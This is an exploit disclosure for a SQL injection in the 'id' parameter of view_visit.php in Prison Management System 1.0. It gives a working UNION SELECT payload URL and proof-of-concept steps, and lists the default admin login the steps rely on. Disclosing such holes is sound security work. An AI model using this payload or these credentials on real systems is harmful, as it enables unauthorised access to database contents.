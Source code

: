 # Prison Management System  - /pms/admin/visits/view_visit.php 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - /admin/visits/view_visit.php 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the `/admin/visits/view_visit.php` "id" parameter, resulting in the generation of SQL injection.

#### Payload used:
/pms/admin/visits/view_visit.php?id=2%27and%201=2%20union%20select%201,2,3,4,5,6,7,user(),database()--+

#### Proof of Concept

1. Login the CMS. 
     Admin Default Access:
       username:admin
       Password: admin123

2. Open Page http://localhost/pms/admin/?page=visits click View button

   ![image-20220606165326315](img/PrisonManagementSystem(SQLI)2.assets/image-20220606165326315.png)

   ![image-20220606165410485](img/PrisonManagementSystem(SQLI)2.assets/image-20220606165410485.png)

   

3. Put SQL payload   in the browser;

     ![image-20220606165443092](img/PrisonManagementSystem(SQLI)2.assets/image-20220606165443092.png)


4. Viewing the dbuser and database name in page;

   

